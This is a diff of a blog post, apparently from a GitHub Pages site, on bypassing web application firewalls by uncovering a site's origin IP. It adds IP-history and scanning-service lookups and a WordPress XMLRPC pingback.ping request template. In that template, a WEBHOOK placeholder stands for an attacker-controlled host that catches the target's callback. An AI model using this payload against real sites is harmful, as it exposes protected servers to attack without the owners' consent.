

Before and after one commit to databased-index/databased-index.github.io, a Markdown page: posts/firewall.md, the part around the change printed below. Shown: that part at 87% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/posts/firewall.md
+++ b/posts/firewall.md
@@ -69,7 +70,7 @@ That way the IP can still be accessed directly if you search it up in your searc
 
 ___PS: The IP you search up in the searchbar has to be linked to the URL you set in the "Host" header for the contents to load, since that's how the server distinguishes what website is being requested from the shared IP___
 
-#### <ins>DNS Record MethodM</ins>
+#### <ins>DNS Record Method</ins>
 When looking for IPs and unprotected subdomains, it's also important to look for IPs or domains listed mainly in **MX** and **TXT** records.
 
 |Resources|Status|Price|
@@ -78,13 +79,61 @@ When looking for IPs and unprotected subdomains, it's also important to look for
 |[dig](https://command-not-found.com/dig)|COMMAND|Free|
 
 #### <ins>IP History Method</ins>
+This method is also pretty easy. You can just get a list of the IPs that were used by the website along time.
+
+|Resources|Status|Price|
+|---------|------|-----|
+|[viewdns.info](https://viewdns.info/)|✅UP|Free|
 
 
-#### <ins>Forensics Search Method (shodan,censys)</ins>
+#### <ins>Forensics Search Method</ins>
+This basically involves searching up the domain on the following websites.
 
+|Resources|Status|Price|
+|---------|------|-----|
+|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
+|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
+|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|
 
 #### <ins>XMLRPC.php Method (Wordpress exclusive)</ins>
+If the target uses Wordpress, it is also very likely to have XMLRPC enabled. (In some cases it doesn't tho, so that's when the rest of the things earlier apply).
 
+To bypass a WAF protecting a wordpress domain, the following method is followed:
+
+```
+POST /xmlrpc.php HTTP/1.1
+Host: TARGET_URL
+Content-Type: text/xml; charset=UTF-8
+
+<?xml version="1.0" encoding="iso-8859-1"?>
+<methodCall>
+<methodName>pingback.ping</methodName>
+<params>
+ <param>
+  <value>
+   <string>WEBHOOK</string>
+  </value>
+ </param>
+ <param>
+  <value>
+   <string>VALID_POST_FROM_TARGET</string>
+  </value>
+ </param>
+</params>
+</methodCall>
+```
+
+This is an old one but incredibly still effective!
+
+What the attacker does is basically:
+
+> Replace the ```TARGET_URL``` with the url of the website.
+
+> Replace ```WEBHOOK``` with a webhook that will be used to catch the pingback response
+
+> Replace ```VALID_POST_FROM_TARGET``` with a post that's been made on the website
+
+> I.E: https://example.com/2025/03/10/is-a-nuclear-powered-marine-sector-a-possibility/
 
 #### <ins>Fingerprinting WAFs</ins>
 
````
Also changed, not shown: other parts of posts/firewall.md (+2 -1 lines).
